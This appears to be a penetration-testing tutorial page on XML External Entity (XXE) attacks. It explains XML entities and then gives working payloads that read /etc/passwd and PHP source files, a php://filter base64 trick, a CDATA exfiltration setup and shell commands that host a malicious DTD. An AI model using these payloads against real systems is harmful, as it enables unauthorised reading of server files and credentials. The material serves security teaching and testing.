 # XXE - XEE - XML External Entity

An XML External Entity attack is a type of attack against an application that parses XML input.

## XML Basics

Most of this part was taken from this amazing Portswigger page: https://portswigger.net/web-security/xxe/xml-entities
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

## What is XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.

## What are XML entities?

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

## What are XML elements?

Element type declarations set the rules for the type and number of elements that may appear in an XML document, what elements may appear inside each other, and what order they must appear in. For example:
<!ELEMENT stockCheck ANY> Means that any object could be inside the parent <stockCheck></stockCheck>
<!ELEMENT stockCheck EMPTY> Means that it should be empty <stockCheck></stockCheck>
<!ELEMENT stockCheck (productId,storeId)> Declares that <stockCheck> can have the children <productId> and <storeId>

## What are XML external entities?

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.
The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:
	<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
The URL can use the file:// protocol, and so external entities can be loaded from file. For example:
	<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
XML external entities provide the primary means by which XML external entity attacks arise.


## Identifyind XXE

The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input. In that case, we may be able to exploit this XML form to read local files.

Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

For example we can define a xml entity:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
or

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

Then send it as input:

```xml
<email>&company;</email>
```

## With CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. <![CDATA[ FILE_CONTENT ]]>). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

Example:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

Then we a dtd file with the joined ententiy:

```shell
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Finally we send our data as:

```xml
<email>&joined;</email>
```

## Automation

Use https://github.com/AndreMIsidoro/tools/tree/master/xxe_injector